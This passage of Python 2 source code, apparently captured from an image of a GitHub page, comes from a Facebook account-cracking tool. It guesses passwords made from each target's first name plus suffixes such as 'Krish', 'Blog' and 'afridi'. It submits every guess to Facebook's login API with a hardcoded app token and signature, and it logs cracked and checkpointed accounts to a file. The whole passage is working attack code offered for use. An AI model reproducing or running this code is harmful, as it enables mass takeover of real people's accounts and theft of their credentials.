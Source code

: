 											print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + 'Krish'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'Blog'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + 'afridi'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	